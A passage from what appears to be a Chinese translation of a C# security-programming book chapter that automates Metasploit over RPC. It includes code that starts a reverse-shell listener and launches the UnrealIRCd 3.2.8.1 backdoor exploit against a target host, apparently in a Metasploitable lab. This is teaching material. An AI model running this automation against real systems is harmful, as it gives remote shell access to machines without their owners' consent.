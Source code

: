 > ➎Dictionary<object, object> opts = new Dictionary<object, object>();
> 
> opts["ExitOnSession"] = false;
> 
> opts["PAYLOAD"] = payload;
> 
> opts["LHOST"] = listenAddr;
> 
> opts["LPORT"] = listenPort;
> 
> response = manager.➏ExecuteModule("exploit", "multi/handler", opts);
> 
> object jobID = response["job_id"]; Listing 11-12: 开始使用 Main() 方法自动化 MetasploitSession 和 MetasploitManager 类

接下来，我们定义一些后续使用的变量 ➊：Metasploit 用于监听回连接的地址和端口，以及要发送到 Metasploitable 的有效载荷。然后，我们创建一个新的 MetasploitSession 类 ➋ 并检查会话的 Token 属性 ➌ 以确认身份验证。确认身份后，我们将会话传递给新的 MetasploitManager ➍，以便我们开始利用过程。

在 ➎ 处，我们创建了一个字典来存储在开始监听回连时发送给 Metasploit 的选项，即 ExitOnSession、PAYLOAD、LHOST 和 LPORT。ExitOnSession 选项是一个布尔值，用来指示当会话连接时监听器是否会停止。如果这个值为 true，监听器将停止；如果为 false，监听器将继续监听新的 shell。PAYLOAD 选项是一个字符串，用来告诉 Metasploit 监听器应该期待什么样的回连负载。LPORT 和 LHOST 分别是要监听的端口和 IP 地址。我们将这些选项传递给 multi/handler 漏洞利用模块（它监听来自 Metasploitable 的回连 shell），并通过 ExecuteModule() ➏ 启动一个任务来监听回连 shell。ExecuteModule() 返回的任务 ID 被存储以备后续使用。

运行漏洞利用

列表 11-13 显示了如何添加代码来对 Metasploitable 执行实际的漏洞利用。

> opts = new Dictionary<object, object>();
> 
> opts["RHOST"] = args[0];
> 
> opts["DisablePayloadHandler"] = true;
> 
> opts["LHOST"] = listenAddr;
> 
> opts["LPORT"] = listenPort;
> 
> opts["PAYLOAD"] = payload;
> 
> manager.➊ExecuteModule("exploit", "unix/irc/unreal_ircd_3281_backdoor", opts); 列表 11-13：通过 RPC 运行 Unreal IRCD 漏洞利用

正如我们之前所做的，我们在调用 ExecuteModule() ➊ 之前在字典中设置了模块的数据存储选项，并传递了 unix/irc/unreal_ircd_3281_backdoor 漏洞利用模块名称和选项（参见列表 11-14）。

> response = manager.➊ListJobs();
> 
> while (response.➋ContainsValue("Exploit: unix/irc/unreal_ircd_3281_backdoor"))
> 
> {
> 
> Console.WriteLine("等待");
> 
> System.Threading.Thread.Sleep(10000);
> 
> response = manager.➌ListJobs();
> 
> }
> 
> response = manager.➍StopJob(jobID.ToString());
